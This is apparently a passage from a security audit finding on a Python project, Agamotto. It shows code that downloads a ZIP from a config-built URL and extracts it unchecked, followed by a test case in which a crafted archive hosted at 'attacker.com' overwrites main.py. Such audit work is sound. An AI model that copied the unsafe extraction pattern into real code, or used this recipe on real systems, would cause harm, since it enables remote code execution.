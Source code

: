 - **Source Code Analysis:**
  - File: `/code/agamotto/agamotto/agamotto.py`
  ```python
  def download_weights(self):
      """
      Downloading weights for first (or only) executions, it will download, extract and create
      a folder based on agamotto.yaml file.
      """
      url = f"{self._model_load_weights_url}/{self._model_load_weights_version}/{self._load_weights_dir}.zip"
      filename = os.path.join(os.getcwd(), f"{self._load_weights_dir}.zip")
      keras.utils.get_file(filename, url)
      with zipfile.ZipFile(f"{self._load_weights_dir}.zip", "r") as z_fp:
          z_fp.extractall("./")
  ```
  - The `download_weights` function in the `Agamotto` class constructs a URL using configuration parameters `_model_load_weights_url`, `_model_load_weights_version`, and `_load_weights_dir`, all of which are derived from the `agamotto.yaml` configuration file.
  - The function uses `keras.utils.get_file()` to download the ZIP archive from the constructed URL. Critically, it then uses `zipfile.ZipFile.extractall("./")` to extract the downloaded archive directly into the current working directory of the application without any validation or security checks.
  - There is no input validation on `_model_load_weights_url` or any of the related configuration parameters that contribute to the download URL.
  - The use of `extractall("./")` is inherently risky as it extracts all files from the archive to the current directory, which can lead to overwriting existing files if the ZIP archive is maliciously crafted.

- **Security Test Case:**
  1. **Prepare a malicious ZIP archive:** Create a ZIP file named `malicious_weights.zip`. Inside this ZIP file, create a directory structure that, when extracted to the application's root directory (`/code/agamotto` inside the container, assuming this is the working directory when `download_weights` is called), will overwrite the `agamotto/main.py` file. For example, the ZIP could contain the path `agamotto/main.py` with malicious content. The malicious `agamotto/main.py` can be a simple script that prints "Vulnerable!" and then exits.
  ```python
  # Malicious main.py content (example)
  print("Vulnerable!")
  exit()
  ```
  Zip this modified `main.py` and place it in the path `agamotto/main.py` inside the zip archive.
  2. **Host the malicious ZIP archive:** Set up a simple HTTP server (e.g., using Python's `http.server`) to host the `malicious_weights.zip` file. Let's assume the server is running on `http://attacker.com` and `malicious_weights.zip` is accessible at `http://attacker.com/malicious_weights.zip`.
  3. **Modify `agamotto.yaml`:** Edit the `agamotto.yaml` file located in the `/code/agamotto/` directory of the project to use the malicious URL:
  ```yaml
  model:
    load_weights_url: http://attacker.com
    load_weights_version: .
    load_weights_dir: malicious_weights
  ```
  4. **Run the Agamotto application:** Build and start the Agamotto application using Docker Compose: `docker-compose up --build`.
  5. **Observe the output:** Check the logs of the `agamotto` container. If the vulnerability is successfully exploited, the application's behavior will be altered. In this test case, if `agamotto/main.py` was successfully overwritten with the malicious version, the container logs should show "Vulnerable!" printed to the console, or the application might fail to start or behave unexpectedly because of the replaced `main.py`. If the application prints "Vulnerable!" instead of its normal startup messages, it confirms that code execution was achieved by overwriting `main.py` through the ZIP extraction vulnerability.
